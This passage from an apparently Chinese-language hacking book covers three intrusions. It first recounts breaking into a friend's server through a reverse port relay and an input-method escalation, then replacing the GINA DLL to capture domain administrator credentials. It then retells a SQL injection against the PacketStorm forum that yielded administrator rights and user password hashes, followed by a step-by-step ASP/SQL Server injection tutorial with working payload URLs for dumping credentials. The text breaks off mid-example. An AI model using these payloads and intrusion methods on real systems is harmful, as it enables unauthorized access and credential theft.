{612A3142-DB85-4D4E-8028-81A9EB4D6A51}]
MULTI_SZ IPAddress 192.168.1.3;
MULTI_SZ TCPAllowedPorts 0;
MULTI_SZ UDPAllowedPorts 0;
MULTI_SZ RawIPAllowedProtocols 0;

```

篇幅关系，我过滤了一些输出。第二次查询的是外网网卡，我们可以得知只开放了TCP 25，53，80，110，3306，UDP全部，IP协议全部。第三次查询的是内网网卡，没有任何限制。现在我们可以把输入法帮助文件上传到他的c:\winnt\help目录下去，然后如果能连接到他的3389端口的话，我们就可以得到admin权限了。问题的关键是外网网卡做了TCP/IP限制。55555，怎么办呢？如何

[PAGE 154]

突破？有办法！我们可以利用socket转发和反弹端口技术，照样可以连接到敌人的TermService！
具体过程如下：

+   1. 在我的服务器www.eyas.org上运行一个程序，监听3389端口等待我的TermClient去连接，监听11111端口等待www.target.net来连接，当然了，第2个端口可以随便选，第1个端口选其他的话，就要相应的修改TermClient，比较麻烦。
2. 在www.target.net运行另外一个程序，先连接到www.eyas.org:11111，再连接到192.168.1.3:3389[敌人服务器内网的IP]。
3. 我的TermClient连接到www.eyas.org:3389，这样，数据通道就全部建立好了。接下来，两个程序就忠实的为我们转发数据了。

这里我不多解释了，知者自知。

当熟悉的登陆界面出现在我面前，我熟练的调出输入法，取得admin权限，呵呵，心里还有那么一点点成就感！

总结：发现mysql漏洞==>凭直觉猜中IIS物理路径==>写一个cmd.asp文件上去得到一个shell==>利用系统配置错误取得admin权限。

接下来我在他内网搜索了一下，没发现什么好玩的东西。后来我把这台机器的Gina DLL给替换掉了。然后我通知我那朋友，他已经进去了他的服务器了。他马上登录进去，“*，这样我就得到了他的UserName和Password了，是域管理员权限的哦。

后记：

+   1. 后来我的朋友跟我说mysql内置账号root他已经设置了密码的，但我确实是用空密码连接进去了，那这肯定是他设置得有问题了，不是他没做，是没做好。
2. 我好像看某些文章说用set命令能看到IIS的根目录是什么，但经我试验，好像默认没有这个环境变量的吧？！果真的有的话，就不用猜IIS的物理路径了，一切都变得简单。
3. 这次入侵前后花了我四天时间，是最刺激的一次。星期五晚上得到一个GUESTS权限的SHELL。周末两天和朋友出去玩，玩的时候不停的思考如何取得管理员权限。周日晚半夜，忽然想起可以写程序通过“反弹端口”来连接终端服务，利用输入法漏洞，虽然帮助文件已经删除，但没安装补丁。周一回到公司把想法变成现实：）

# 5.2 通过SQL攻击wwwthreads论坛

#### 现在的问题

许多应用程序都可以通过SQL来进行攻击，因此现在的程序大都知道了避免使用Strcpy()，并且不把用户数据传递给System()调用，但是很多程序还不知道SQL查询可以被黑客篡改，用来达到攻击的目的。

作为一篇技术探讨，笔者将全面地解释如何利用wwwthreads程序的漏洞得到PacketStorm论坛管理员权限和将近800个用户密码的。（注：WWWThreads是展示用户登记的一个交互的基于万维网的讨论区，内建有搜索引擎，多重的讨论区，高度可定制和管理。工作在NT或unix环境下。）

#### SQL攻击的详细解释

某日，笔者正在PacketStorm的论坛上浏览，发现这个论坛使用的是wwwthreads。我突然注意到了URL的参数（URL中'?'后面的部分）。作为一个Web安全爱好者，我对它感到极为好奇。使用试验的攻击

[PAGE 155]

方法，我把Showpost.pl程序中的`Board=general`参数改为了`Board=rfp`。提交并发现传回来以下错误信息：

```
We cannot complete your request. The reason reported was:
Can't execute query:
SELECT B_Main,B_Last_Post
FROM rfp
WHERE B_Number=1
Reason: Table 'WWWThreads.rfp' doesn't exist
```

可以发现这儿还有一个参数`Number=1`，我们可以推断出查询请求是这样构造的：
`SELECT B_Main,B_Last_Post FROM $Board WHERE B_Number=$Number`
如果你读过我在Phrack 54上发表过的文章的话（可以到`http://www.wiretrip.net/rfp/p/doc.asp?id=7&iface=2`阅读），你就应该明白我要做什么了。我们不仅可以修改`$Board`和`$Number`参数，而且还可以提交额外的SQL命令。试想一下，如果我们提交的`$Board`参数是下面的样子：

```
'general; DROP TABLE general; SELECT * FROM general '
```

那么在服务器端就会转化成：

```
SELECT B_Main, B_Last_Post FROM general; DROP TABLE general;
SELECT * FROM general WHERE B_Number=$Number
```

`;`符号是SQL命令的结束符。通常我们可以使用`#`来使MySQL忽略此行上的其它内容。但是，`FROM`和`WHERE`是在一个分开的行上，所以MySQL不会忽略它。考虑到错误的SQL语句会使MySQL忽略运行后面的语句，所以我们至少要提交一个有效的命令。在本例中，我们提交一个和原始命令相似的Generic Select命令，理论上的结果应该是删除General论坛所在的表。

但是实际上并没有成功，并不是因为理论是错误的，而是因为我们使用的数据库用户没有DROP权限。根据wwwthreads编写的方法，它不完全允许你这么做。但是一切并没有白费，我们可以修改其参数，看看哪里会出问题…而且我们可以到`www.wwwthreads.com`去下载wwwthreads的源代码（免费版）。

#### 这就是对 $Number 参数的限制

基于这一点让我们来看看“为什么”我们要研究它。很显然，我们有可能达到DROP表这种DOS攻击，你还有可能修改其他人的发言，但那仍然不是我们要的。我们没准能建立我们自己的论坛？所有的信息都储存在数据库里。但是有许多记录要去更新。成为一个数据库操作员怎么样？或者更进一步，成为管理员怎么样？管理员可以增添、删除、修改论坛、用户等。这是值得一试的，虽然你仍然将会被限制在论坛的领域里，那是一个小的可怜的领域。

但是，仍然有一件事情值得为它一试。如果你注册为一个用户，你会发现你必须要输入一个密码。Hmmm...这个密码储存在某个地方，好像是数据库里。考虑到许多人的密码用在很多地方，而且wwwthreads（在某些配置上的错误？）把发言者的IP地址发布到论坛上。如果我们能得到某个人的密码，就可能去攻破他的主机。

所以，让我们来看看密码是怎么存储的。进入到论坛的“编辑属性”页，有一个密码域，通过Html源码看，像是有一个可怕的加密密钥。这意味着你需要一个密码破解软件和大量的时间去对密码进行解密。当然，这是假定你“能够”得到密码。

首先我们要去获得论坛管理员权限。Adduser.pl程序是我们开始的好地方，因为它可以让我们看到一个用户的全部参数。看看下面的代码：



这段代码所做的就是看看是否定义了用户。如果没有定义用户，增添的第一个用户就自动得到管理员权限（Status=Administrator）和安全级别100。在这之后，再定义的所有用户就只能得到普通用户权限（Status=User）了。所以我们要做的就是要找到一种方法，使得我们的Status=Administrator。我们可以再看看一条用户记录的详细情况，如下：

```perl
# ------------------------------
# Put the user into the database
my $Status_q = $dbh -> quote($Status);
$Username_q = $dbh -> quote($Username);
my $Email_q = $dbh -> quote($Email);
my $Display_q = $dbh -> quote($config{'postlist'});
my $View_q = $dbh -> quote($config{'threaded'});
my $EReplies_q = $dbh -> quote("Off");
$query = qq!
INSERT INTO Users (Username, Email, Totalposts, Laston, Status, Sort,
    Display, View, PostsPer, EReplies, Security, Registered)
VALUES ($Username_q, $Email_q, 0, $date, $Status_q, $config{'sort'},
    $Display_q, $View_q, $config{'postsperpage'}, $EReplies_q, $Security, $date)
!;
```

现在，得花点时间来解释一下Quote()函数。当把一个值为“blah blah blah”的字符串放入“SELECT * FROM table WHERE data=$data”时，它会成为如下样子：

```sql
SELECT * FROM table WHERE data=blah blah blah
```

这个SQL语句是无效的。数据库只认第一个Blah，而不知道怎么处理后边的两个Blah。所以所有的字符串数据应该被压缩进单引号里（'）。因此，查询命令应该是这样：

```sql
SELECT * FROM table WHERE data='blah blah blah'
```

这才是正确的。在我以前写的SQL安全的文章里提到过一种方法，就是使用我们自己的单引号来打破SQL语句中的单引号。所以如果我们提交“blah blah' MORE SQL COMMANDS..”它看起来应该是下面这个样子：

```sql
SELECT * FROM table WHERE data='blah blah' MORE SQL COMMANDS...'
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```

#### 要提交的数据

这将使得SQL引擎把MORE SQL COMMANDS解释为实际的SQL命令，因为它把Data中的第二个单引号（我们提交的那个）当作了字符串的结束符。这是把数据转化为人们易于阅读的字符串的缺陷，它使得可以重解析数据。所以SQL引擎很难分辨出哪些是数据，哪些是命令。这对我们来说是非常有用的。如果提交一个`''`，它并不是告诉SQL引擎这是字符串的结尾，而是把它当作字符串中的一个单引号。因此如下的查询命令：

```sql
SELECT * FROM table WHERE data='data''more data'
```

会使得数据库去查找“data'more data”的值。所以为了避免用户突破字符串而去提交额外的命令，程序员要做的就是复制两个单引号（把 `'` 变成 `''`）。这能够确保提交的数据是合法数据。这也正是DBI->Quote()函数所做的——把字符串两边加上单引号，并把用户提交的单引号复制成两个单引号。

在解释了上面这些之后，你应该明白所有经过了Quote()函数处理过的数据都不能被利用了，因为我们无法提交额外的SQL命令或者篡改其它有用的东西了。如果你看看源代码会发现，wwwthreads非常广泛地使用了Quote()函数，这对我们来说非常不好，但是还有机会。

你可以看到，域有不同的类型，包括字符串、布尔类型、多种数字类型等。字符串域需要使用Field='data'这样的格式，而数字域则不用（例如，Numeric_field='2'是错误的）。正确的数字域的用法应该是Numeric_field=2。这儿没有单引号，程序甚至不能随意地加单引号。正确的解决办法是确保所有的数字域是真正的数字（下文会详细解释）。我可以给你个提示：wwwthreads没有进行正确的检查，实际上大多数应用程序也都没有进行正确的检查。

所以，我们现在要提交一个能够篡改我们感兴趣的表的SQL语句。一个SELECT语句是固定的，因此我们还需要另外一句SQL语句。Insert和Update就不错，因为它们已经可以修改数据了。

查找了半天之后，我发现一个非常好的可以利用的地方…changeprofile.pl。这是一个用来把数据传递给Editprofile.pl并把改动写进数据库的程序。当然，改动的只是我们的用户的数据。这意味着要利用它，就必须注册一个用户。不管怎么样，让我们先来看一看：`# Format the query words`

```perl
my $Password_q = $dbh -> quote($Password);
my $Email_q = $dbh -> quote($Email);
my $Fakeemail_q = $dbh -> quote($Fakeemail);
my $Name_q = $dbh -> quote($Name);
my $Signature_q = $dbh -> quote($Signature);
my $Homepage_q = $dbh -> quote($Homepage);
my $Occupation_q = $dbh -> quote($Occupation);
my $Hobbies_q = $dbh -> quote($Hobbies);
my $Location_q = $dbh -> quote($Location);
my $Bio_q = $dbh -> quote($Bio);
my $Username_q = $dbh -> quote($Username);
my $Display_q = $dbh -> quote($Display);
my $View_q = $dbh -> quote($View);
my $EReplies_q = $dbh -> quote($EReplies);
my $Notify_q = $dbh -> quote($Notify);
my $FontSize_q = $dbh -> quote($FontSize);
my $FontFace_q = $dbh -> quote($FontFace);
my $ICQ_q = $dbh -> quote($ICQ);
my $Post_Format_q = $dbh -> quote($Post_Format);
my $Preview_q = $dbh -> quote($Preview);
```

几乎所有的参数都被Quote()处理过了。这表示所有这些参数对我们来说就都没用了。让我们再来看看最终被写进数据库的查询语句：

```sql
# Update the User's profile
my $query = qq|
UPDATE Users
SET Password = $Password_q,
Email = $Email_q,
Fakeemail = $Fakeemail_q,
Name = $Name_q,
Signature = $Signature_q,
Homepage = $Homepage_q,
Occupation = $Occupation_q,
Hobbies = $Hobbies_q,
Location = $Location_q,
Bio = $Bio_q,
Sort = $Sort,
Display = $Display_q,
View = $View_q,
PostsPer = $PostsPer,
EReplies = $EReplies_q,
Notify = $Notify_q,
TextCols = $TextCols,
TextRows = $TextRows,
FontSize = $FontSize_q,
FontFace = $FontFace_q,
Extra1 = $ICQ_q,
Post_Format = $Post_Format_q,
Preview = $Preview_q
WHERE Username = $Username_q
|;
```

因为wwwthreads自动在用Quote()处理过的变量后面加了"_q"，所以我们很容易看出来。可以看到：$Sort，$PostsPer，$TextCols，和 $TextRows 没有被Quote()处理过。现在让我们来看看这些变量出自哪里：

```perl
my $Sort = $FORM{'sort_order'};
my $PostsPer = $FORM{'PostsPer'};
my $TextCols = $FORM{'TextCols'};
my $TextRows = $FORM{'TextRows'};
```

它们是直接从用户提交的数据里解析出来的。这意味着它们没有经过任何有效性检查，这就是我们可以利用的机会了！

再回过头来看看用户记录的结构（前面已给出），我们所要改变的是 'Status' 域。在这个 Update 查询中，Status 并没有被列出。这意味着 Status 会保持不变。那么我们怎么办呢？花1秒钟时间想一下。

记住，我们所要做的关键是使我们提交的东西看起来像是数据，而最终 SQL 引擎即数据库会把它解释成命令。注意一下，查询语句中域是按这种形式列出来的：Field=Value、Field=Value、Field=Value，等等（当然，它们被分隔在不同的行）。如果插入一些伪造的值（处于举例的缘故），会有：

```text
Name='rfp', Signature='rfp', Homepage='www.wiretrip.net/rfp/'
```

下面所要做的就是把这些值放在同一行上，去掉空格，并把它们放进字符串值里，这是合法的 SQL 语句。

现在让我们把所有一切和在一起。注意 'Sort' 变量，它是数字类型的，我们这样提交：

```text
Bio='puppy', Sort=5, Display='threaded'
```

这仍然是合法的 SQL 语句。因为 $Sort=$FORM{'sort_order'}，这意味着要达到上面的 Sort 值，我们应该提交一个 Sort_order=5 的参数。现在我们就利用 Sort 来达到我们的攻击目的。我们要做的是包含一个逗号和其它的语句。假定要改变 Status 域的话，我们就应该提交一个值为 '5，Status='Administrator'' 的 sort_order 参数，当它经过程序处理流程后，最终会变成这个样子：

```text
Bio='puppy', Sort=5, Status='Administrator', Display='threaded'
^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```

#### 我们提交的数据

这仍然是合法的 SQL 语句。而且这个语句会令数据库把 Status 域升级为 'Administrator'！别忘了我们前面看过的 Adduser.pl 程序，第一个用户的安全级别是 100。我们也要 100 的安全级别，所以我们就把 Sort_order 参数设置成 '5，Status='Administrator'，Security=100，' 那么我们就会得到：

```text
Bio='puppy', Sort=5, Status='Administrator', Security=100, ...
```

这就更新了所有我们想要的值。数据库不知道我们的诡计，就会更新这两个域，并把这个用户升级为论坛管理员。

于是我们就把这种攻击技术用到了 PacketStorm 论坛上。结果对 Changeprofile.pl 请求得到了一个 404 错误。看来前面看的那个版本没有这个问题。再去看看 “Edit Profile” 菜单，我看它有 “Basic Profile”、“Display Preferences” 和 “Email Notifications/Subscriptions” 这几个 demo 版所没有的东西，如果它们能改变脚本的话，它们也同样能够改变 SQL 查询语句（实际上它们必须能够）。于是我们现在进入 “黑盒子” 状态（进行猜测性尝试，看看结果会怎样）。因为我们仍然对 Sort_order 参数进行尝试，你可以看到它包含在 “Display Preferences” 脚本里（Editdisplay.pl）。

这个脚本处理 Sort_order、Display、View、PostPer、Post_Format、Preview、TextCols、TextRows、FontSize、FontFace、PictureView 和 PicturePost 这几个参数（通过查看 Html 源码得到）。它是参数的一个子集。使用上面的代码片段，我们可以猜到 SQL 查询是什么样子的。

首先我把一些非法的值放进 Sort_order 参数（用字符串而不是数字）。这当然将返回错误。我们就可以检查错误信息。在第一个例子里的 'Board' 表前加了 'B_' 前缀，'User' 表前加了 'U_' 前缀。所以可以推断出我们应该使用 'U_Status' 和 'U_Security' 作为域的名字。太棒了！

相关的参数应该是Username和Oldpass。基于以上内容，我们应该提交一个这样的URL：

```text
changedisplay.pl? Cat=&
Username=rfp
&Oldpass=(加密过的密码)
&sort_order=5, U_Status%3d 'Administrator' , U_Security%3d100
&display=threaded
&view=collapsed
&PostsPer=10
&Post_Format=top
&Preview=on
&TextCols=60
&TextRows=5
&FontSize=0
&FontFace=
&PictureView=on
&PicturePost=off
```

其中最重要的一个参数是：

&sort_order=5, U_Status%3d 'Administrator' , U_Security%3d100

这就是我们所要改变的数据库部分（%3d等于'='字符）。如果把上面的URL合成一个字符串，你会得到：

```text
changedisplay.pl?Cat=&Username=rfp&Oldpass=(加密过的密码)
&sort_order=5, U_Status%3d 'Administrator' , U_Security%3d100&display=threaded
&view=collapsed&PostsPer=10&Post_Format=top&Preview=on&TextCols=60
&TextRows=5&FontSize=0&FontFace=&PictureView=on&PicturePost=off
```

这就是所有全部的东西了；于是我们把它提交到PacketStorm论坛，并且得到：

Your display preferences have been modified.

再注意一下顶部上的菜单，我们已经看到了“Admin”菜单。我们点击了这个菜单，看到一行令人心中温暖的信息：

As an Administrator the following options are available to you.

太棒了，管理员权限。看看我的选项，我可以编辑用户、留言板和论坛，指派操作员和管理员权限，禁止用户/主机，终止/关闭/打开线程等等。

现在进行我们的第二个目标——密码。我进入到“Show/Edit Users”菜单，并被要求选择我感兴趣的用户名的第一个字母。于是我选择了R，所有以R开头的用户全都被列了出来，我选择了rfp。然后出现了我的加密过的密码。不幸的是，要得到全部的用户名和密码是件极为麻烦的事，于是我就写了个Perl脚本来自动做。所有得到的密码都保存为可以直接用John The Ripper来解密的形式。

#### 解决方案

那么怎么避免出现这种问题呢？你可以看到，出现这种问题的原因在于对传给SQL查询的数据没有做限制。虽然wwwthreads对大部分数据使用了Quote()处理，但是它没有对数字类型的数据进行处理。解决的办法就是确保传递过来的数字类型值是真正的数字类型。你可以用如下函数来处理：

```perl
sub onlynumbers {
    ($data=shift) =~ tr/0-9//cd;
}
```## Perl 程序

下面包含了两个Perl程序。wwwthreads.pl用来对有漏洞的wwwthreads发起攻击查询。你只需要知道要攻击的IP、用户名和密码。w3tpass.pl用来下载所有的wwwthreads的用户密码，并把它们转化成可以用John The Ripper来解密的格式。

本文涉及的perl程序

[图片]

### 5.3 SQL Injection攻击技术

#### 一、前言

黑网站的方法很多，通过Web来攻击是其中很主要的一种，而通过Web黑网站的方法也很多，利用数据库来攻击也是其中的一种。大多数使用Web脚本语言（ASP, PHP等）+后台数据库系统（MSSQL, Oracle等）的Web网站都可能存在着SQL Injection漏洞。这种漏洞的普及程度绝不亚于当年的UNICODE和IDA溢出，而且很关键的一点是，这类漏洞不是依靠安装系统补丁或进行简单的安全配置（如安全策略等）就能够解决的。

前段时间，我对国内一些使用ASP + SQL Server（或Access）的电子商务网站进行了简单测试，其中大概60%以上存在SQL Injection的问题，而这其中的绝大多数完全没有对用户输入进行过滤，还有一些仅对部分用户输入数据进行了过滤，大多数存在此类漏洞的网站不仅可以入侵数据库，而且可以利用来进入其操作系统。

SQL Injection攻击如此好用，可是介绍这种攻击方法的中文资料却很少。本文只介绍针对ASP + SQL Server的SQL Injection攻击，其他系统的待日后慢慢总结出来。

#### 测试环境：
- Windows 2000 Server + SP2
- IIS 5.0
- SQL Server 2000

#### 二、什么是SQL Injection

SQL Injection按照字面上的意思来翻译就是“SQL注射”，不过我更喜欢把它翻译成“SQL插入”，它的含义就是利用某些数据库的外部接口把用户数据插入到实际的数据库操作语言当中，从而达到入侵数据库乃至操作系统的目的。

我们都知道，利用Web脚本语言做前台 + 数据库做后台的应用系统中，必须有一些东西是来自用户提交的信息，例如用户登陆名和密码，信息条目ID，搜索字符串等等。如果这些由用户提交的信息或用户可以修改的信息被攻击者所利用，就可能把本来正确的SQL语句篡改成攻击者所想要的语句。下面举一个简单的ASP程序的例子来说。

我们首先在SQL Server里面建立一个数据库mydb，然后在里面建立一个名为login表：

```
create database mydb;
create table login(
    userid smallint IDENTITY(1,1) PRIMARY KEY CLUSTERED,
    username varchar(20) NOT NULL,
    password varchar(10) NULL
);
```

这就是我们后面要操作的表，里面包含用户ID，用户名和密码，现在我们往里面添加一个用户：

```
insert into login(username, password) values('isno', 'testit');
```

用户名是isno，密码是testit的一个用户，下面我们用一个ASP脚本来访问这个数据库来进行登陆验证：

```
<HTML>
<HEAD>
<TITLE>测试ASP页面</TITLE>
</HEAD>
<BODY>
<%
    dim conn
    dim connstr
    uname=Request.QueryString("username")
    pword=Request.QueryString("password")
    Set conn = Server.CreateObject("ADODB.Connection")
```

#### 三、利用SQL Injection入侵数据库

一般来说，电子商务网站中的重要数据都存储在后台数据库中，所以攻击者首先考虑的就是入侵到数据库当中。

##### 1. 如何确定ASP程序是否存在漏洞

那么，怎样仅仅通过浏览器就能够确定一个ASP程序有SQL Injection漏洞呢？还以上面的有SQL Injection漏洞的ASP程序为例，假设我们现在就是攻击者。因为我们可以修改的URL中的数据部分有username=isno&password=some，所以我们可以在其中一个加上单引号来进行试验：

```
http://localhost/test.asp?username=isno&password=some'
```

浏览器会返回一个错误信息：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]字符串 'some'' 之前有未闭合的引号。
/test.asp，行 14
```

这就说明test.asp这个程序有SQL Injection问题，但是，根据IIS的配置不同，可能会显示“HTTP 500—内部服务器错误”这样的信息，这也是存在SQL Injection漏洞的证据。当然，也可能对方的ASP程序的错误处理写的好，那么可能什么错误信息都不返回，这就要根据经验来进行推测了。

##### 2. 如何得到后台数据库信息

好了，我们利用这种方法可以推测出一个ASP程序是否存在漏洞，那么怎么样利用它来对数据库进行操作呢？聪明的读者可能会说：“这还不简单？就在单引号后面加入SQL操作语句不就行了吗？”但是事实并不是这样简单，因为对于一个实际的人侵情况来讲，入侵者是不可能知道后台数据库的数据库名、表名、列名等信息的，因为无法写出正确的SQL语句。

那么怎么办呢？对了，我们可以利用返回的错误信息来得到数据库名、列名和表名。对于上面的例子，我们在浏览器中输入如下URL：

```
http://localhost/test.asp?username=isno&password=some' having 1=1--
```

浏览器会返回一个错误信息：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]列 'login.userid' 在选择列表中无效，因为该列未包含在聚合函数中，并且没有 GROUP BY 子句。
/test.asp，行 14
```

having 1=1是和GROUP BY子句一起使用的一个条件判断SQL语句，因为我们提交的数据不正确，所以返回的错误信息就会告诉我们一个表名和列名 'login.userid'。这样我们就获得了想要的一些信息，然后我们可以通过提交如下URL来获得login表中的其他列名：

```
http://localhost/test.asp?username=isno&password=some' group by login.userid having 1=1--
```

浏览器会返回一个错误信息：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]列 'login.username' 在选择列表中无效，因为该列既不包含在聚合函数中，也不包含在 GROUP BY 子句中。
/test.asp，行 14
```

这个错误返回信息又告诉了我们login表中的另外一个列名：username。继续使用这种方法，我们可以不断地得到login表中的所有列名：

```
http://localhost/test.asp?username=isno&password=some' group by login.userid,login.username having 1=1---
```

浏览器会返回一个错误信息：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]列 'login.password' 在选择列表中无效，因为该列既不包含在聚合函数中，也不包含在 GROUP BY 子句中。
/test.asp，行14
```

再提交

```
http://localhost/test.asp?username=' isno&password=some' group by login.userid,login.username, login.password having 1=1---
```

浏览器没有返回错误信息，而是显示“登陆失败”，这说明我们已经得到了login表的全部3个列名：userid、username和password。

但是仅仅得到了列名还无法对数据库进行操作，因为我们还不知道这些列的数据类型。用如下方法可以得到其数据类型：

```
http://localhost/test.asp?username=' isno&password=some' union select sum(username) from login---
```

浏览器会返回一个错误信息：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]sum or average aggregate 运算不能以 varchar 数据类型作为参数。
/test.asp，行14
```

这说明了username列的数据类型是varchar类型的，用同样的方法我们可以知道password列也是varchar类型的。当提交的是sum(userid)时，返回的错误信息是：

```
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]包含 UNION 运算符的 SQL 语句中的所有查询都必须在目标列表中具有相同数目的表达式。
/test.asp，行14
```

所以说明了userid可以进行sum()运算，因此它应该是int,smallint等整数类型。

好了，这样我们就得到了test.asp这个程序所操作的数据库表名是login，而login这个表里包含3个列名：userid（int或smallint类型）、username（varchar类型）、password（varchar类型）。知道了这些信息以后，我们就完全可以对这个表进行操作了，例如我们可以给里面添加一个用户：

```
http://localhost/test.asp?username=' isno&password=some'; insert into login values('hacker','hackpass')---
```

虽然浏览器会返回“登陆失败”，但是实际上这样就添加了一个名为hacker的用户，它的密码是hackpass。读者可能会有疑问，为什么没有插入userid的值呢？因为根据经验，凡是和ID有关的值都是表的主列，也就是可以自动增长的，所以我们不用制定这个值。

##### 3. 读取数据库中的数据

因为我们已经知道了login表中有哪些列，所以我们很容易利用union子句来读出login表中的任意数据，

例如：

```
http://localhost/test.asp?username= isno&password=some' union select min(username),1,1 from login where username>'i'---
```

浏览器会返回一个错误信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 varchar 值 'isno' 转换为数据类型为 smallint 的列时发生语法错误。
/test.asp，行14

这告诉了我们一个用户名是isno，然后我们可以用同样的方法得到这个用户的密码：

```
http://localhost/test.asp?username= isno&password=some' union select min(password),1,1 from login where username='isno'---
```

浏览器会返回一个错误信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 varchar 值 'testit' 转换为数据类型为 smallint 的列时发生语法错误。
/test.asp，行14

这样就得到了用户名isno和密码testit。
但是这种方法一次只能得到一个用户名和密码，如果我们想要得到所有的用户名、密码，就需要试很多次，这是非常麻烦的。怎样能一次得到全部的用户名和密码呢？我们可以用一系列SQL语句来把用户名和密码读出来存入一个表的列中，然后再想办法把这个字符类型的列和某个整数类型相关联，这样就可以在错误信息里显示出我们想要的东西了。我们需要这么一个SQL脚本来完成这些功能：

```
begin declare @ret varchar(8000)
set @ret=' '
select @ret=@ret+' '+username+' / '+password from login where username>@ret
select @ret as ret into tmp
end
```

我们提交一个包含这个脚本的URL：

```
http://localhost/test.asp?username= isno&password=some' ; begin declare @ret varchar(8000) set
@ret=' ' select @ret=@ret%2B' ' %2Busername%2B' / '%2Bpassword from login where username>
@ret select @ret as ret into tmp end---
```

其中%2B是'+'的ASC编码，因为'+'在URL里有特殊的含义，所以应该用%2B来代替。这个URL的意思就是把上面的脚本放在一行上，然后利用SQL Injection插入进去，这样就会生成一个名为tmp的表包含一个列ret，里面存放了所有的用户名和密码。然后我们在利用前面的union方法来读取tmp表的ret列：

```
http://localhost/test.asp?username= isno&password=some' union select ret,1,1 from tmp---
```

浏览器会返回一个错误信息：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 varchar 值 ' : isno/testit hacker/hackpass' 转换为
[/content]数据类型为 `smallint` 的列时发生语法错误。
`/test.asp`，行14

这样就可以看到login表中所有的用户名和密码了。最后别忘了删掉这个临时建的表tmp：

`http://localhost/test.asp?username=isno&password=some'; drop table tmp---`

## 4. 对int类型的数据进行SQL Injection攻击

前面我们看到的SQL Injection攻击都是针对字符串型数据（char或varchar等）进行的。但是还有一类常见的ASP程序是利用信息条目ID来查询数据，而一般这些信息条目ID都是int或者smallint等整数类型的数据，因此，对这类整数类型数据进行SQL Injection攻击就需要一些特殊的方法。

请看下面ASP程序：

```html
<HTML>
<HEAD>
<TITLE>测试ASP页面</TITLE>
</HEAD>
<BODY>
<%
dim conn
dim connstr
uid=Request.QueryString("userid")
Set conn = Server.CreateObject("ADODB.Connection")
    connstr="driver={SQL Server};server=localhost;uid=sa;pwd=mypass;database=mydb"
    conn.Open connstr
    Set RS=conn.Execute("SELECT UserId, UserName from login where UserId="&uid)
    Response.Write("UserId:"&RS("UserId")&" UserName:"&RS("UserName")&"<BR>")
    RS.Close
    conn.Close
%>
</BODY>
</HTML>
```

把它保存为testint.asp，我们通过下面的URL来访问这个脚本：

`http://localhost/testint.asp?userid=1`

浏览器会返回给我们userid等于1的用户名，也就是isno。如果我们想对这个脚本进行SQL Injection攻击，首先也是要利用一些方法来获取数据库的表和字段等信息，因为这是整型数据，所以我们不能通过GROUP子句等方法来插入数据了，但是我们同样可以使用UNION子句造成错误信息来得到我们要的东西。提交如下URL：

`http://localhost/testint.asp?userid=1 union select top 1 table_name,table_name from information_schema.tables---`

其中系统表`information_schema.tables`包含了系统中所有表的信息，这个表中的`table_name`字段包含了所有的表名，因为在我们提交了上面的URL之后，浏览器返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'syssegments' 转换为数据类型为 smallint 的列时发生语法错误。
/testint.asp，行13
```

这就告诉了我们，在当前数据库中包含一个syssegments表，这个是在建立数据库时系统自动生成的表，我们不关心，接下来我们就可以继续提交：

`http://localhost/testint.asp?userid=1 union select top 1 table_name,table_name from information_schema.tables where table_name not in ('syssegments')--`

浏览器会返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'login' 转换为数据类型为 smallint 的列时发生语法错误。
/testint.asp，行 13
```

这就告诉了我们当前的表名为login，然后我们就可以利用`information_schema.columns`表中的`column_name`字段来得到login表中的字段名：

`http://localhost/testint.asp?userid=1 union select top 1 column_name,column_name from information_schema.columns where table_name='login'--`

浏览器会返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'userid' 转换为数据类型为 smallint 的列时发生语法错误。
/testint.asp，行 13
```

这告诉了我们login表中一个字段userid，我们可以继续得到其他的字段：

`http://localhost/testint.asp?userid=1 union select top 1 column_name,column_name from information_schema.columns where table_name='login' and column_name not in ('userid')--`

浏览器返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'
